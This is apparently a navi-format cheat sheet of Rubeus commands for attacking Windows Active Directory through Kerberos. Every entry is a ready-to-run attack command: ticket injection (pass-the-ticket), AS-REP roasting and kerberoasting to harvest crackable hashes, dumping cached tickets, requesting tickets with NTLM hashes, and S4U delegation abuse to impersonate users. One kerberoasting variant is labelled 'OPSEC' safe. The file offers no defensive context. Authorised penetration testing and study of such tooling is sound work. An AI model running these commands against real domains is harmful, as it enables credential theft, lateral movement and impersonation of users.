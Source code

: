 # rubeus

% ad, windows, rubeus

## inject ticket from file
.\Rubeus.exe ptt /ticket:<ticket>

## inject ticket from b64 blob
.\Rubeus.exe ptt /ticket:<BASE64BLOBHERE>

## check ASPREPRoast for all users in current domain
.\Rubeus.exe asreproast  /format:<AS_REP_response_format> /outfile:<output_hashes_file>

## ASREPRoast specific user
.\Rubeus.exe asreproast  /user:<user> /domain:<domain_name> /format:<AS_REP_response_format> /outfile:<output_hashes_file>

## kerberoasting - current domain
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file>

## Kerberoasting and outputing on a file with a spesific format
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file> /domain:<domain_name>

## Kerberoasting whle being "OPSEC" safe, essentially while not try to roast AES enabled accounts
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file> /domain:<domain_name> /rc4opsec

## Kerberoast AES enabled accounts
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file> /domain:<domain_name> /aes
 
## Kerberoast specific user account
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file> /domain:<domain_name> /user:<user> /simple

## get hash
.\Rubeus.exe hash /user:<user> /domain:<domain_name> /password:<password>

## dump - will dump any relevant cached TGS ticket’s stored
.\Rubeus.exe dump

## ask and inject ticket
.\Rubeus.exe asktgt /user:<user> /domain:<domain_name> /rc4:<ntlm_hash> /ptt

## S4U - with ticket - Contrained delegation
.\Rubeus.exe s4u /ticket:<ticket> /impersonateuser:<user> /msdsspn:ldap/<domain_fqdn> /altservice:cifs /ptt

## S4U - with hash - Constrained delegation
.\Rubeus.exe s4u /user:<user> /rc4:<NTLMhashedPasswordOfTheUser> /impersonateuser:<user_to_impersonate> /msdsspn:ldap/<domain_fqdn> /altservice:cifs /domain:<domain_name> /ptt

## get rc4 of machine with the password
.\Rubeus.exe hash /password:<machine_password>

## S4U - Resource based contrained delegation
.\Rubeus.exe s4u /user:<MachineAccountName> /rc4:<RC4HashOfMachineAccountPassword> /impersonateuser:<user_to_impersonate> /msdsspn:cifs/<domain_fqdn> /domain:<domain_name> /ptt

= ticket : c:\Temp\ticket.kirbi
= domain_fqdn : MYDC.mydomain.local
= domain_name : mydomain.local
= AS_REP_response_format : hashcat
